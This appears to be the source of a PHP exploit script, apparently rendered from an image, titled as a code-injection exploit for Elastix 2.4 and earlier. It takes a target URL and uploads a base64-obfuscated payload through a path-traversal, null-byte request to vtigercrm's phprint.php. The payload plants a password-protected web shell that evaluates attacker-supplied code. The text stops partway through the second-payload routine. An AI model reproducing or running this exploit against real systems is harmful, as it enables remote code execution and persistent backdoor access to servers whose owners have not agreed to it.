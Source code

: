 


```php
<?
echo "\n+-------------------------------------------+\n";
echo "|              Elastix <= 2.4               |\n";
echo "|         PHP Code Injection Exploit        |\n";
echo "|                  By i-Hmx                 |\n";
echo "|                sec4ever.com               |\n";
echo "|             n0p1337@gmail.com             |\n";
echo "+-------------------------------------------+\n";
echo "\n| Enter Target [https://ip] # ";
$target=trim(fgets(STDIN));
$inj='<?eval(base64_decode("JGY9Zm9wZW4oJ2ZhcnNhd3kucGhwJywndysnKTskZGF0YT0nPD8gaWYoISRfUE9TVFtwd2RdKXtleGl0KCk7fSBlY2hvICJGYXJpcyBvbiB0aGUgbWljIDpEPGJ
yPi0tLS0tLS0tLS0tLS0tLS0tIjtAZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFtmYV0pKTtlY2hvICItLS0tLS0tLS0tLS0tLS0tLSI7ID8+Jztmd3JpdGUoJGYsJGRhdGEpO2VjaG8gImRvbmUiOw
o="));
?>';
$faf=fopen("fa.txt","w+");
fwrite($faf,$inj);
fclose($faf);
$myf='fa.txt';
$url =
$target."/vtigercrm/phprint.php?action=fa&module=ff&lang_crm=../../modules/Import/ImportStep2.php%00";
// URL
$reffer = "http://1337s.cc/index.php";
$agent = "Mozilla/5.0 (Windows; U; Windows NT 5.0; en-US; rv:1.4)
Gecko/20030624 Netscape/7.1 (ax)";
$cookie_file_path = "/";
echo "| Injecting 1st payload\n";
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_USERAGENT, $agent);
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,array("userfile"=>"@".realpath($myf))); //userfile:/path/to/the/file/fa.txt
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_USERAGENT, $agent);
curl_setopt($ch, CURLOPT_POST, 1);
curl_setopt($ch, CURLOPT_POSTFIELDS,array("userfile"=>"@".realpath($myf)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_REFERER, $reffer);
curl_setopt($ch, CURLOPT_COOKIEFILE, $cookie_file_path);
curl_setopt($ch, CURLOPT_COOKIEJAR, $cookie_file_path);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
$result = curl_exec($ch);
curl_close($ch);
//echo $result;
echo "| Injecting 2nd payload\n";
function faget($url,$post){
$curl=curl_init();
curl_setopt($curl,CURLOPT_RETURNTRANSFER,1);
curl_setopt($curl,CURLOPT_URL,$url);
curl_setopt($curl, CURLOPT_POSTFIELDS,$post);
curl_setopt($curl, CURLOPT_COOKIEFILE, '/');
curl_setopt($curl, CURLOPT_COOKIEJAR, '/');
curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
curl_setopt($curl, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($curl,CURLOPT_FOLLOWLOCATION,0);
curl_setopt($curl,CURLOPT_TIMEOUT,20);
```